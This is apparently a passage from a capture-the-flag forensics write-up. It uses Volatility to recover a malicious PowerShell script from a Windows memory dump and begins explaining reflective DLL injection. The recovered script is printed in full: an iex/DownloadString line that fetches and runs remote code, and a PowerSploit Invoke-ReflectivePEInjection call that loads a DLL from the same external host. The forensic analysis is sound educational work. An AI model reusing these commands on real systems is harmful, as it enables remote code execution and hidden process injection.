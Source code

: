 ```shell
                                                                                                                        
PS C:\Users\Miyuki> C:\Windows\security\update.ps1                                                                      
**************************************************
```

It appears that Miyuki might have run a Powershell script called `update.ps1`. We can try to locate this file if it's on disk using the `filescan` plugin. We can then take the offset that is returned to dump the file out to our machine. It won't always look perfect, but it's usually legible.

```shell
remnux@remnux:~/ctf/cyber-apocalypse/forensics_reflection/autoVolatility$ vol.py -f memory.raw --profile=Win7SP1x86_23418 filescan | grep update.ps1
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends.openssl import backend
0x000000003f4551c0      8      0 R--r-- \Device\HarddiskVolume1\Windows\security\update.ps1
remnux@remnux:~/ctf/cyber-apocalypse/forensics_reflection/autoVolatility$ vol.py -f memory.raw --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000003f4551c0 --dump-dir=.
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends.openssl import backend
DataSectionObject 0x3f4551c0   None   \Device\HarddiskVolume1\Windows\security\update.ps1
remnux@remnux:~/ctf/cyber-apocalypse/forensics_reflection/autoVolatility$ ls -la file.None.0x85bf45c8.dat 
-rw-rw-r-- 1 remnux remnux 4096 May 19 18:58 file.None.0x85bf45c8.dat
remnux@remnux:~/ctf/cyber-apocalypse/forensics_reflection/autoVolatility$ cat file.None.0x85bf45c8.dat 
iex (New-Object net.webclient).Downloadstring('https://windowsliveupdater.com/sysdriver.ps1');
Invoke-ReflectivePEInjection -PEUrl https://windowsliveupdater.com/winmgr.dll -ProcName notepad
```

Well, well, well. It appears we've finally found the bad thing. `windowsliveupdater.com` is not a real Microsoft domain, it's actually owned by one of the HTB staff, maklaris, and simply redirects to a Rick Roll. But, here it's been used to host a `sysdriver.ps1` file which has probably been executed in memory, and the cmdlet `Invoke-ReflectivePEInjection` has been run. Some googling shows that it's part of the [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) suite of tools. 

#### Aside: What is Reflective DLL Injection?
> Warning: Windows Internals content ahead.

Windows is complicated, so there are a lot of TTPs out there that do very seemingly complex things if you don't know the OS very well. I'm going to explain this at a high-level, but I encourage you to do more reading if you want to learn more about some things that are super important to the DFIR and red teaming space.

Recall that DLL stands for "Dynamic Link Library", and functions in the similar way that a shared object (`.so`) file in Linux does, that is, it contains a library of functions for a `.exe` file to import and pull from. For a DLL to be used, it must be parsed by a loader, which will then execute functions based on the DLL main function, which differs from a normal main function in an executable file.
